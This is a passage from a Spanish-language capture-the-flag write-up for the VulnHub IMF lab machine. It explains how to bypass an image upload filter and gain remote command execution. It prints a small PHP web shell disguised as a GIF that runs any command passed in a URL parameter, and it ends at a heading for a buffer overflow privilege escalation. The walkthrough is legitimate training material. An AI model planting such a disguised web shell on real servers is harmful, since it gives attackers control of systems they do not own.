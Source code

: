 ## File Upload to RCE

> http://192.168.1.143/imfadministrator/uploadr942.php

![](/assets/images/VulnHub/IMF/upload.png)

Al subir una imagen cualquiera vemos en la respuesta que hay un comentario, el cual parece ser el nombre del archivo sin la extensión. Si vamos a la ruta `uploads/nombre_del_archivo.png` veremos la foto que hemos subido.

![](/assets/images/VulnHub/IMF/filename.png)

`http://192.168.1.143/imfadministrator/uploads/4edf6733684e.png`

Nuestro objetivo es intentar subir código en **PHP** y que nos lo interprete, para eso podemos crear un archivo **GIF** para vurlar las restricciones que contenga código en php.

> reverse.gif

```
GIF8;

<?php
    $command=$_GET['cmd']; echo `$command`;
?>
```

Subimos el archivo, vemos el nombre del archivo en el comentario y vamos a la ruta. Tenemos ejecución remota de comandos.

![](/assets/images/VulnHub/IMF/rce.png)

## Buffer Overflow Stack Based Privilege Escalation
